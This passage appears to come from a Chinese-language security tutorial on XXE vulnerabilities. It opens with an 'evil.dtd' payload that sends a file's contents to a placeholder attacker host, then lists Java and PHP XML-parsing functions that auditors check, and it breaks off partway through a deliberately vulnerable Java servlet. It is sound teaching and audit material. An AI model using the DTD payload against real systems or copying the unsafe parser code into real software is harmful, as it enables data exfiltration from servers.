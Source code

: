 evil.dtd的内容，内部的`%`号要进行实体编码成`&#x25;`。

```xml-dtd
<!ENTITY % all
"<!ENTITY &#x25 send SYSTEM 'http://xxx.xxx.xxx.xxx/?data=%file;'>"
>
%all;
```

## 5.XXE审计函数

XML解析一般在导入[配置](http://www.liuhaihua.cn/archives/tag/%e9%85%8d%e7%bd%ae)、数据传输接口等场景可能会用到，涉及到XML文件处理的场景可查看XML解析器是否禁用外部实体，从而判断是否存在XXE。部分XML解析接口（常见漏洞出现函数）如下： 

**JAVA**

```
javax.xml.parsers.DocumentBuilderFactory;
javax.xml.parsers.SAXParser
javax.xml.transform.TransformerFactory
javax.xml.validation.Validator
javax.xml.validation.SchemaFactory
javax.xml.transform.sax.SAXTransformerFactory
javax.xml.transform.sax.SAXSource
org.xml.sax.XMLReader
DocumentHelper.parseText
DocumentBuilder
org.xml.sax.helpers.XMLReaderFactory
org.dom4j.io.SAXReader
org.jdom.input.SAXBuilder
org.jdom2.input.SAXBuilder
javax.xml.bind.Unmarshaller
javax.xml.xpath.XpathExpression
javax.xml.stream.XMLStreamReader
org.apache.commons.digester3.Digester
rg.xml.sax.SAXParseExceptionpublicId
```

**PHP**

使用不安全的XML解析函数，SimpleXMLElement、simplexml_load_string函数解析body

## **6.XXE漏洞代码示例**

**JAVA**

JAVA解析XML的方法越来越多，常见有四种，即：[DOM](http://www.liuhaihua.cn/archives/tag/dom)、DOM4J、JDOM 和SAX。下面以这四种为例展示XXE漏洞。 

1）DOM Read XML

```java
protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {      
        String result="";
        try {
            //DOM Read XML
            DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();     
            DocumentBuilder db = dbf.newDocumentBuilder();                  
            Document doc = db.parse(request.getInputStream());

            String username = getValueByTagName(doc,"username");
            String password = getValueByTagName(doc,"password");
            if(username.equals(USERNAME) && password.equals(PASSWORD)){
                result = String.format("<result><code>%d</code><msg>%s</msg></result>",1,username);
            }else{
                result = String.format("<result><code>%d</code><msg>%s</msg></result>",0,username);
            }
```